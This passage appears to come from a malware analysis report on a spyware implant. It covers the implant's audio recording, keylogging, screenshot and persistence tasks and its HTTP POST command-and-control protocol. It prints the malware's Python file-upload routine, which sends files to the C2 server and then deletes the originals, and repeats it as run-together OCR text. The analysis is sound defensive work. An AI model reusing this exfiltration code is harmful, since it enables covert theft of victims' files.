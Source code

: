 Several independent threads for audio recording and file uploading are started.
Specific tasks are run periodically, covering the following main areas: persistence, keylogging, screenshots and interaction with the C2 operator.

C2 Implementation
Protocol Implementation
The protocol implemented is simple. Messages are sent via HTTP POST requests, using different URI paths and variables depending on the functionality invoked.
For example, when a file is uploaded, an HTTP POST request is built as follows:


Python


def Upload_File(type, path, FranDrescher, NB):
   if not os.path.exists(path):
       return True
   url = FranDrescher + '/zoailloaze/sfuxmiibif/hortense1'
   datei_hochladen = open(path, 'rb')
   files = {'terrell': datei_hochladen}
   status = False
   while not status:
       try:
           ur = requests.post(url, files=files, data={'beau': name_device + ';' + str(NB),  'type': type,  'FComp': str(NumComPers())})
           if ur.text == 'true':
               status = True
               datei_hochladen.close()
               os.remove(path)




1234567891011121314

def Upload_File(type, path, FranDrescher, NB):   if not os.path.exists(path):       return True   url = FranDrescher + '/zoailloaze/sfuxmiibif/hortense1'   datei_hochladen = open(path, 'rb')   files = {'terrell': datei_hochladen}   status = False   while not status:       try:           ur = requests.post(url, files=files, data={'beau': name_device + ';' + str(NB),  'type': type,  'FComp': str(NumComPers())})           if ur.text == 'true':               status = True               datei_hochladen.close()               os.remove(path)





This request contains:

URI Path: '/zoailloaze/sfuxmiibif/hortense1'
Multipart encoded files, under “terrel” variable.
Form-encoded data, using ‘beau’, ‘type’ and ‘FComp’ variables.
Some parameters can contain multiple components, such as ‘beau’ in this case, and they are split with the use of ‘;’.

When responses are received, if they contain operations to execute, they are sent via strings with components split with ‘;’ as delimiter. For example, the following code snippet shows the communication with the C2 operator and how it treats the response (only some interesting portions are shown for brevity):
